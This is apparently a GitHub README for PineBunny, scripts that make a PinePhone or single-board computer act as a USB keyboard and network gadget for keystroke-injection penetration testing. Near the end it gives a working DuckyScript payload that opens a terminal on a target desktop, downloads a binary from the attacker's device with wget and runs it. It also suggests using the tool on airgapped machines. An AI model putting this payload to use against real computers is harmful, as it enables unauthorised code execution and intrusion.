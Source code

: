 # PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repository first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy those along with the pinebunny and usbarsenal binaries to /usr/local/bin.
Everytime you run the 'pinebunny' script you'll have to choose the layout you want to use. BUT, if you only need to use one of them and don't want to be entering everytime you use the tool, you can hardcode it in and it won't ask you again unless you change it back. Just simply edit pinebunny at the beginning of the file from something like this:

`#!/bin/bash

defdelay=0
kb="/dev/hidg0 keyboard"

last_cmd=""
last_string=""
line_num=0
layout=""	#Enter the name of the layout here [us, es, it]
choose=true	#Change this to false and hardcode a layout before if you only plan on using 1 keyboard distribution
`
To something like this:

`
layout="us"	#Enter the name of the layout here [us, es, it]
choose=false	#Change this to false and hardcode a layout before if you only plan on using 1 keyboard distribution
`

Only us ,es and it layouts are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo usbarsenal` You need to enable /dev/hidg0 first, tho usbarsenal also has options for enabling ECM or RNDIS tethering and Mass Storage (you need to specify the loop device to use), so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo pinebunny duckypayload.txt`

# UPDATE

Now you can execute bash commands in any part of the duckyscript payload just as you would do so on a Bash Bunny! The difference being that the Bash Bunny payloads run bash commands like normal and it uses `Q STRING somethinghere` to specify the next thing is just duckyscript, and here it's backwards. By default everything is duckyscript and you specify a bash command like this: `BASH somecommandhere`.

Only limitation of running bash commands like this is that it will wait until that command finishes (with or without errors) before executing the next intruction of the payload, so some commands that execute forever until you stop them will freeze the rest of the payload from executing. There's an easy fix for that though, and that's to run that command as a background process like: `BASH someinfinitecommandhere &`, and then just disowning the process and moving on with life: `BASH disown %`. After that the process will run in the background and the rest of the payload will continue.

Enjoy using bash commands to do crazy stuff to your heart's content ^_^


# Example payload using HID + Ethernet

`usbarsenal` can enable Ethernet over USB, and that can be used for different kinds of attacks. The only thing you have to keep in mind is that you need to manually assign an IP address to the usb0 interface, as well as a netmask and you also need a proper dhcp and dns server (like dnsmasq) so that the target machine gets assigned an IP address automatically.

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo usbarsenal`, `sudo ifconfig usb0 up 10.66.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.0.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running or we add it to the payload itself 

`
BASH dnsmasq -C dnsmasq.conf -d
BASH disown %
``` 
and we also leave the web server running: `python -m http.server` (or add it to the payload as well as above). Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
ALT F2
DELAY 500
STRING xfce4-terminal
ENTER
DELAY 1000
STRING wget http://10.0.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo pinebunny payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
